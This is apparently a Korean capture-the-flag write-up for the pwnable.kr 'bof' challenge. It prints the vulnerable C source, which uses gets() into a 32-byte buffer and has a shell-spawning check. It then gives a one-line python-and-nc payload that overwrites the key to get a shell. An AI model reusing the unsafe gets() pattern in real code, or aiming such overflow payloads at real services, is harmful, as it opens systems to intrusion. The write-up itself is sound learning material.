 ```yaml
---
sort: 3
---
```


# bof

home 디렉토리에 col.c파일을 확인하면 소스코드를 볼 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

<img src="/picture/hacker_school/pwnable.kr/bof.png" width="1000"/>

overflowme의 주소는 ebp-0x2c이고, func의 첫번째 인자인 key의 위치는 ebp+0x8이기 때문에 아래와 같이 해주면 된다.

```bash
$ (python -c "print('A'*0x34+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
cat flag
```

```tip
## 알게 된 점

음..... 딱히...?
```